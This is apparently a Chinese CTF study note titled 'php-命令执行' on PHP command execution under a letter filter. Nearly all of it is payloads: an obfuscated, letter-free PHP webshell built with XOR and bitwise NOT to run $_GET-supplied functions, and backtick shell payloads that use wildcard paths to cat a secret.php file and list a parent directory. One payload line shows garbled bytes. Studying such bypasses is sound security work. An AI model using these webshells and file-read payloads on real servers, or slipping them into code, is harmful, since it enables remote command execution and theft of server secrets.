 ```yaml
---
title: php-命令执行
date: 2018-07-18 15:58:22
tags:
passwd: 345678
---
```


1. webshell

```
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
=> 
$_GET[_]($_GET[__]);
=>
<?=`{${~"����"}[_]}`;
// echo -ne '<?=`{${~"\xa0\xb8\xba\xab"}[_]}`;'
```

2. 写文件&读文件

php的标签<?php存在字母肯定不行，尝试<?发现不解析，没有开启段标签。
查资料后发现<?=可以作为php标签。<?=的含义为<?php echo，是PHP 5.4.0以后的新特性
**不管是否设置 short_open_tag php.ini 选项，<?= 将总是可用。**

```
<?=$_=`/???/??? ../??????.???>@#$`;
=> 
/bin/cat ../secret.php>@#$
=> 
cat ../secret.php>@#$
=>
<?=`/???/??? ../??????.??? > ===`
=>
<?=`/???/??? ../*`;
```

